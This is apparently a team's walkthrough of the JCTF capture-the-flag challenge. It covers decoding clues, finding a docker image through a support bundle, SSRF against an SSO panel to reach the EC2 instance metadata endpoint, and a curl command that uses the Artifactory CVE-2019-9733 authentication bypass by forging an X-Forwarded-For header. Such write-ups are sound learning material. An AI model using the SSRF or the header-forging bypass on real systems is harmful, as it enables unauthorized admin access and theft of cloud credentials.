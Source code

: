 ```yaml
---
layout: post
title: JCTF Walkthrough
date: 2021-03-25
author: The JCTF Winning Team
---
```


## Part 1
At the beginning of the first part of the challenge, the first screen presents binary code that needs to be translated to ASCII to reveal the next clue. 

![](images/jctf/walkthrough/1.png)

After translating it, the following text is revealed:

"/nextClue.html" 

![](images/jctf/walkthrough/2.png)

We simply append the path to the current URL in the browser:

https://p2vsl6sflf.jfrog.info/nextClue.html

The next screen displays a base64 encoded paragraph which needs to be decoded:

![](images/jctf/walkthrough/3.png)

```bash
$ echo "<the_base64_string>" | base64 -D
```

After decoding, the following link will be exposed:

https://p2vsl6sflf.jfrog.info/underground/#  

![](images/jctf/walkthrough/4.png)

After navigating to that link, the following website appears:

![](images/jctf/walkthrough/5.png)

When clicking the login button, a pop up message comes up stating that the login is disabled. The word source was in uppercase, which implies that the HTML source should be inspected.

Once you inspect the source, you’ll find an HTML comment (in green text) saying that the response headers may reveal the next clue:

![](images/jctf/walkthrough/6.png)

And indeed, the flag for part 1 is revealed:

```bash
$ curl https://p2vsl6sflf.jfrog.info/underground/# -v
```

![](images/jctf/walkthrough/7.png)

Entering the flag in the main platform will unlock part 2.


## Part 2

![](images/jctf/walkthrough/8.png)

Part 2’s greeting text reveals that some docker image should be pulled from some local docker repository in order to advance in the challenge. The name and address of the image are not disclosed, but a JFrog Support Bundle link is provided which can be used to infer the details. 

We went ahead and downloaded the Support Bundle. Once the bundle is downloaded, opening the artifactory-service.log file reveals the following log line:

```log
2020-09-25T10:06:23.651Z [jfrt ] [INFO ] [cd5fd999d333179e] [o.a.e.UploadServiceImpl:439   ] [http-nio-8081-exec-9] - Deploy to 'docker-local:secret-project/2.0/manifest.json' Content-Length: 2204 (estimation)
```

This line reveals the full name and tag of the docker image we're looking for. However, we are still missing the complete registry URL in order to assemble the full docker image coordinates.
To find out the URL, we opened artifactory.config.latest.xml (Artifactory application configuration file) from within the Support Bundle downloaded earlier, and searched for the reverse proxy settings. The search should lead you to the following section:

![](images/jctf/walkthrough/9.png)

We can now assemble the full docker pull command:

```bash
$ docker pull ughk60hfce.jfrog.info:7391/secret-project:2.0
```

After pulling the image, we went ahead and started a container, using:

```bash
$ docker run -it ughk60hfce.jfrog.info:7391/secret-project:2.0 /bin/sh
$ ls
$ cat note
```

![](images/jctf/walkthrough/10.png)

Searching for the text "secret" will reveal suspicious source code within the jfrog-cli codebase, within the file artifactory/cli.go.

```bash
$ cd secret-project
$ grep -r "secret" .
```

![](images/jctf/walkthrough/11.png)

We went ahead and opened this file, searching for "secret", where we found the following code:

![](images/jctf/walkthrough/12.png)

Reading the above code implies that the characters that build the secret code are contained within the obfuscationList variable at line 105, and on line 126, the exact character indices are exposed. We took a shortcut here, and composed the following short program to reveal the next JCTF code: 

![](images/jctf/walkthrough/13.png)

(Access the playground snippet here: https://play.golang.org/p/-MCu_6FLdJw)


## Part 3

![](images/jctf/walkthrough/14.png)

The last part starts with a link to the SSO Panel and a link to the AWS EC2 documentation about instance metadata. The "Retrieving instance metadata" link seemed relevant:

![](images/jctf/walkthrough/15.png)

The page reveals the EC2 instance metadata link, which can only be accessed from an EC2 instance and not from your laptop.

![](images/jctf/walkthrough/16.png)

The SSO Panel is a .php website that runs on an EC2 instance, so we can use the URL field to submit an HTTP request to the instance metadata endpoint:
 
![](images/jctf/walkthrough/17.png)

After that, we manually brute-forced our way to the next clue by traversing the metadata paths until we reached:

![](images/jctf/walkthrough/18.png)

The above text mentions a security vulnerability for Artifactory versions up to 6.8.6.

First, we used our internal JIRA to find the vulnerability. However, we eventually used this ![Artifactory Hacking Guide](https://www.errno.fr/artifactory/Attacking_Artifactory#cve-2019-9733-authentication-bypass-686) to get some context on how to use the exploit.

![](images/jctf/walkthrough/19.png)

The exploit basically includes forging the X-Forwarded-For header with a value of 127.0.0.1 to bypass the restriction on the access-admin account which should be limited for local access only.

```bash
$ curl -k -H 'X-Forwarded-For: 127.0.0.1' -u access-admin:password https://p2vsl6sflf.jfrog.info:2054/artifactory/api/access/api/v1/users/ | python -m json.tool
```

The response payload contains the final JCTF flag:

![](images/jctf/walkthrough/20.png)

![](images/jctf/walkthrough/21.png)





